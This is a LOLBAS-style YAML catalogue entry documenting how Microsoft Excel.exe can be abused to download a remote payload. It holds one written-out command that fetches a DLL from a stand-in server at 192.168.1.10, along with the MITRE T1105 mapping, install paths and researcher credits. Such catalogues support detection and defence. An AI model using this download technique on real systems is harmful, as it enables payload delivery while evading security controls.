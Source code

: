 ```yaml
---
Name: Excel.exe
Description: Microsoft Office binary
Author: "Reegun J (OCBC Bank)"
Created: "2019-07-19"
Commands:
  - Command: Excel.exe http://192.168.1.10/TeamsAddinLoader.dll
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Excel.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office16\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Excel.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office15\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Excel.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office14\Excel.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Excel.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Excel.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: "Reegun J (OCBC Bank)"
    Handle: "@reegun21"
---
```

